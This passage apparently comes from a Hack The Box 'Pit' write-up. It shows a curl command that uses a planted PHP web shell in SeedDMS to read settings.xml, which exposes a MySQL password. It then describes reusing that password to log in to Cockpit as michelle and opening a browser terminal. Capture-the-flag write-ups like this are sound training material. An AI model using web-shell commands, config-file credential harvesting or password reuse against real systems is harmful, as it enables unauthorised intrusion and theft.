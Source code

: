 It works, and from the passwd file we see michelle also has a logon to the box.

## MySQL Credentials

A look on the GitHub site at the structure of seeddms reveals there is a config file in the conf folder.

```text
┌──(root💀kali)-[~/htb/pit/snmp]
└─# curl http://dms-pit.htb/seeddms51x/data/1048576/38/1.php?cmd=cat%20/var/www/html/seeddms51x/conf/settings.xml
PHP Backdoor Code:
<pre><?xml version="1.0" encoding="UTF-8"?>
<configuration>
<SNIP>
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
    </database>
<SNIP>
<extensions><extension name="example"/></extensions></configuration>
</pre>
```

## Cockpit Access

The config file is long but searching for "pass" finds the above hidden amongst it. I couldn't get any further in seeddms, so I wondered if that password has been reused by michelle somewhere else. It didn't work for SSH but it did work on the Cockpit login page I found earlier on port 9090:

![pit-cockpit](/assets/images/2021-09-25-18-24-23.png)

## User Flag

At the bottom on the left is a terminal link, this gets us a web based terminal in the browser so let's grab the user flag:

![pit-terminal](/assets/images/2021-09-25-18-26-24.png)
